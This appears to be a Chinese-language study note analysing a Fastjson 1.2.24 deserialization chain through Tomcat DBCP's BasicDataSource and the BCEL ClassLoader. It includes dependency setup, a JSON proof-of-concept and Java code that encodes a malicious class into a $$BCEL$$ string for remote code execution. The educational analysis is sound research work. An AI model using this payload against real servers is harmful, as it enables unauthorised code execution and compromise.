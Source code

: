 ## 前言

在目前Fastjson上主要存在3条链子：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

第一个利用链是常规的加载恶意字节码，实现RCE，但是需要开启`Feature.SupportNonPublicField`，这个条件就特别苛刻；

第二个利用链用到的是JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，在目标没外网的情况下无法直接利用；

第三个利用链（我们这篇学习的）也是一个对字节码的利用，但是不需要目标额外开启选项，也不用连接外部服务器，利用条件更低。

##  环境搭建：

条件是：需要tomacat的一些依赖

```xml
<dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```

因为`tomcat-dbcp`的版本是`9.0.8`,所以包改为了`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

JDK需要8，JDK7打不出来的

POC:

```java
{
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$...."
        }
    }: "bbb"
}

```

如果依赖换一下：

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```

包为`org.apache.tomcat.dbcp.dbcp.BasicDataSource`

JDK7和JDK8都可以实现。

##  利用链：

介绍`Class.forName()`方法：

之前说过Class.forName() ，是可以根据一个类的路径，获取一个Class对象实例。所以这个方法可以用来动态加载指定的类，它会返回一个指定类/接口的 Class 对象，如果没有指定ClassLoader， 那么它会使用BootstrapClassLoader来进行类的加载。该方法定义如下：

```java
public static Class<?> forName(String name, boolean initialize, ClassLoader loader) throws ClassNotFoundException
  
public static Class<?> forName(String className) throws ClassNotFoundException
```

Class.forName() 和 ClassLoader.loadClass() 这两个方法都可以用来加载目标类，但是都不支持加载原生类型，比如：int。但是Class.forName() 可以加载数组，而 ClassLoader.loadClass() 不能。

Class.forName()方法实际上也是调用的 CLassLoader 来实现的，调用时也可以在参数中明确指定ClassLoader。与ClassLoader.loadClass() 一个小小的区别是，forName() 默认会对类进行初始化，会执行类中的 static 代码块。(这个我们在讲反射时，也提到过)。而ClassLoader.loadClass() 默认并不会对类进行初始化，只是把类加载到了 JVM 虚拟机中。



利用链分析：

在`org.apache.tomcat.dbcp.dbcp.BasicDataSource`的`createConnectionFactory()`方法中：

![image-20221017104214905](img/image-20221017104214905.png)

这个调用了`Class.forName`，就可以加载类，获取一个Class对象实例

同时其中的两个参数实现setter方法，所以我们都是可以控制参数的

![image-20221017104601103](img/image-20221017104601103.png)

![image-20221017104623159](img/image-20221017104623159.png)

一般来说，需要先看看有没有什么getter或者setter方法调用，这样就可以直接触发

但是这个类只在`createDataSource`方法中调用

![image-20221017104708620](img/image-20221017104708620.png)

继续看`createDataSource()`又在`getConnection`调用

![image-20221017104935476](img/image-20221017104935476.png)

所以有个get，整体的payload也就出来了

`BasicDataSource.getConnection() > createDataSource() > createConnectionFactory()`

我们在`BCEL动态加载字节码`就提到过,利用BCEL库独特的ClassLoader，就可以加载BCEL字节码

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;//重点的ClassLoader

public class EvilBCEL {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        System.out.println("$$BCEL$$"+code);
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
    }
}


```

所以这个也是一样的，利用Fastjson中的`parse`调用setter，对其属性进行赋值，然后调用`ClassforName`就可以加载类，执行`static`中的恶意代码。

payload

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.alibaba.fastjson.JSON;
public class fast {
    public static void main(String[] args) throws Exception{
        JavaClass cls = Repository.lookupClass(Evil.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        String poc = "{\n" +
                "    {\n" +
                "        \"aaa\": {\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$"+ code+ "\"\n" +
                "        }\n" +
                "    }: \"bbb\"\n" +
                "}";
        JSON.parse(poc);
    }
}

```

FastJson中的 JSON.parse() 会识别并调用目标类的 setter 方法以及某些满足特定条件的 getter 方法，然而 getConnection() 并不符合特定条件，所以正常来说在 FastJson 反序列化的过程中并不会被调用。

因为JSONObject是Map的子类，在执行toString() 时会将当前类转为字符串形式，会提取类中所有的Field，自然会执行相应的 getter 、is等方法。

首先，在 {“@type”: “org.apache.tomcat.dbcp.dbcp2.BasicDataSource”……} 这一整段外面再套一层{}，反序列化生成一个 JSONObject 对象。

然后，将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法：

![image-20221017220149878](img/image-20221017220149878.png)

从而当`_outputProperties`过来时，调用toString方法，从而实现加载恶意字节码

##  参考文章

https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html

https://mp.weixin.qq.com/s/C1Eo9wst9vAvF1jvoteFoA